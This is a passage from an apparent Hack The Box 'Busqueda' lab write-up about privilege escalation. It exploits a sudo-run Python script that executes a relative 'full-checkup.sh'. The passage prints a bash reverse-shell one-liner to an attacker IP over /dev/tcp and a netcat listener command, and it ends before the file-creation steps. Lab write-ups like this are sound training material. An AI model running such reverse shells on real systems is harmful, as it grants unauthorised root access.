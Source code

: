 going through the site, this mainly looks like a git service that is used to maintain the site.

I also see that the version is Gitea Version: 1.18.0+rc1, let's see if there are any associated CVEs:

![](/assets/img/htb_busqueda/Screenshot_From_2024-11-09_22-30-48.png)

while there are CVEs associated with Gitea, there aren't any associated with this current version. Looks like we are going to have to get creative:

![](/assets/img/htb_busqueda/Screenshot_From_2024-11-09_22-53-02.png)

I do notice that full-checkup appears to be a bash file that get executed *with sudo privileges!* by the python script. While we can't edit this file, we could potentially make our own that will give us a reverse shell running as root.

this is a really handy resource for making reverse shells in various languages:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

I will be doing a classic bash reverse shell one-liner from the above resource to point to our attack machine:

``` bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.186/8080 0>&1'
```

from here, we will create a new full-checkup.sh in the tmp directory and run the system-checkup.py and receive the shell on our machine:

also make sure that you have a netcat session setup on the port of your choice:

``` bash
nc -nlvp 8080 -s 10.10.14.186
```

I did the following steps to create the file:
